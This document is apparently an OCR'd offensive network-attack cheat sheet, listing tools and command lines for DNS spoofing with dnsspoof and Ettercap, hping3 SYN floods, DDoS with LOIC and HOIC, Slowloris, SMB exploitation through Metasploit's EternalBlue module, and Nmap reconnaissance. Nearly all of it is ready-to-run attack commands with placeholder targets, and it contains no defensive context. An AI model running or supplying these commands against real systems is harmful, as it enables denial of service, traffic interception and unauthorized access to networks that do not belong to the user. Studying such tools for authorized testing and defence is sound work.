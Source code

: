 # DNS Spoofing
DNS Spoofing: Redirecting traffic by manipulating DNS responses.
Tool: dnsspoof, Ettercap, mitmproxy
Command:
dnsspoof -i <interface> -f <dns-file>: Poison DNS cache with a fake DNS response
ettercap -T -q -i <interface> -M ARP /<target-ip>/ /<gateway-ip>/ -P dns_spoof: DNS spoofing with Ettercap
mitmproxy: Man-in-the-middle proxy for intercepting and modifying HTTP/HTTPS requests (useful for DNS poisoning)

# Network Injection Attacks
TCP/UDP Injection
TCP/UDP Injection: Sending malicious data to manipulate a TCP/UDP connection.
Tool: Hping3, Scapy
Command:
hping3 -S <target-ip> -p <target-port> --flood: Inject TCP SYN packets to flood a target
scapy: Use custom Python scripts for TCP/UDP packet injection

# SYN Flood
SYN Flood Attack: Overloading a target by sending a flood of SYN requests.
Tool: Hping3, Scapy, LOIC
Command:
hping3 --syn -p <target-port> <target-ip>: Perform SYN flood attack on a target
scapy: Script a custom SYN flood with Scapy
loic: Use Low Orbit Ion Cannon to launch SYN floods (easy-to-use DDoS tool)

# IP DoS (Denial of Service) and DDoS (Distributed Denial of Service)
DDoS Attack
Distributed Denial of Service: A coordinated attack using multiple sources to flood a target with traffic.
Tool: LOIC, HOIC, Hping3, Slowloris
Command:
loic: Use Low Orbit Ion Cannon for simple DDoS attacks
hoic: High Orbit Ion Cannon for more powerful DDoS attacks (floods HTTP)
hping3 --flood -S -p <target-port> <target-ip>: Perform a SYN flood via Hping3
Slowloris Attack
Slowloris: A DoS attack by sending partial HTTP requests to exhaust server resources.
Tool: Slowloris
Command:
perl slowloris.pl <target-ip>: Launch Slowloris attack on the target

# IP-Based Exploits and Vulnerabilities
SMB/NetBIOS Exploits
SMB/NetBIOS: Exploiting vulnerabilities in SMB services to gain unauthorized access to files and networks.
Tool: Metasploit, Nmap
Command:
msfconsole: Use Metasploit to exploit SMB/NetBIOS vulnerabilities (e.g., auxiliary/smb/smb_version, exploit/windows/smb/ms17_010_eternalblue)
nmap -p 139,445 --script=smb-os-discovery <target-ip>: Use Nmap scripts to find SMB shares and services
IP and Network Reconnaissance
Reconnaissance: Finding weaknesses in the network based on IP and other characteristics.
Tool: Nmap, Nikto, Netdiscover
Command:
nmap -sV -O <target-ip>: Identify services and OS information for a target IP